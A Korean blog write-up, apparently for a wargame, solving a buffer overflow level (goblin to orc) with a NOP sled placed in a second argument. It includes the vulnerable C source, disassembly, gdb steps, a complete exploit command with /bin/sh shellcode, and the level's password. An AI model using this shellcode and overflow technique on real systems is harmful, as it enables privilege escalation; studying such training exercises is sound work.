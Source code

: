 ```yaml
---
date: '2022-10-14'
before : '2022-10-13'
after : '2022-10-15'
title: 'FTZ LOB LEVEL 4'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에 

드디어 새로운 형식의 BOF문제다! 재미있게 한 번 풀어보자.

### 1. Level 4 : Goblin -> Orc

코드를 확인해보니, egghunter라는 녀석이 모든 환경변수를 초기화하고있다.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
일단 어셈블리도 확인해보고 어떻게 할지 알아보도록 하자.
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048630
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049750
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

### 2. NOP SLED

오늘은 NOP SLED라는 방식을 활용할 것이다. NOP SLED란 컴퓨터 기계단에서 포인터가 다음 실행될 코드의 주소를 가리킬 때, \x90 (NOP)가 있으면 SLED, 썰매를 타듯이 계속 다음 코드를 자동으로 포인팅하여 실행(혹은 디코딩)가능한 내용물이 나오기까지 계속해서 주소를 이동시키는 로직을 이용한 방법이다.
#
#
우리가 두 개의 문자열을 매개변수로 남긴다고 가정해보자. (물론 프로그램에서 매개변수를 하나로 제한한다면 다른 방법을 생각해야 할 것이다.) 
#
#
gdb를 활용하면 얼마든지 두 매개변수의 주소를 구할 수 있다. (예를 들어 두놈 다 \x90을 실컷 넣어놓고 실행시킨 다음 디버깅을 하면서 00000000이 계속해서 나오는 지점을 확인하면 된다.)
#
#
단, 이는 우리가 실제 문제 코드를 실행시킨 게 아닌, 코드를 카피해서 만든 프로그램으로 진행해야하기에 완벽하게 주소를 알아내는 것은 불가능하다. 하지만 똑같은 코드이기에 **대략적인** 주소는 확인 가능하다. 
#
#
여기서 NOP SLED가 등장한다. 대충 여기인 것 같다면, 그 곳부터 \x90을 잔뜩 넣은 후 그 후에 쉘코드를 꽂아주자. 그러면 실제 프로그램에서도  **"대충 그 어디쯤에 들어간"** 두 번째 매개변수가 쉘을 실행시켜 줄 것이다.
#
# 
하지만 이걸 위해서는 당연히 첫 번째 매개변수에 늘 하던것과 똑같이 bof를 발생시켜 return지점을 바로 저 두 번째 매개변수의 대략적인 시작지점으로 바꿔줘야 한다. 


### 3. 실제 흐름

일단 orc파일을 복사해서 실행파일로 만든 다음 그 파일을 gdb로 디버깅한다.

```
gdb copy
b * main //main 함수 시작하자마자 브레이크 포인트.
r `python -c "print '\x90'*44 + '\xff\xff\xff\xbf'"` ``python -c "print '\x90' * 200"` 
// 실행시킬 때 실제 버퍼오버플로우처럼 44 + 4바이트 리턴주소를 넣어준다.

//실행하면 브레이크 포인트가 걸렸을 것이다. 레지스터의 구조를 확인하기 위해 다음과 같은 명령어를 입랙현다

x/200x $ebp
```
여기서 내가 gdb로 도대체 무슨짓을 한건지 모르겠다면, gdb 디버거에 대해 조금 공부해보자. b는 브레이크포인트고, r은 브레이크 포인트 건 상태에서 코드를 실행하기 위한 명령어일 뿐이다. 


하여튼 마지막 코드를 입력하면 현제 레지스터 주소의 점유현황이 (꽤 길게) 나타난다. 이 중에서 00000000이 쭉 이어지는 부분을 찾으면 그곳이 대략적인 두 번째 매개변수의 주소다.


이렇게 확인한 두 번째 매개변수의 주소는 다음과 같다 :
```
\xc8\xfb\xff\xbf
```

따라서 익스플로잇 : 

```
 ./orc `python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
 ```
 
 비밀번호 : cantata

 ---
## Source

- 해커스쿨 FTZ
- Me!
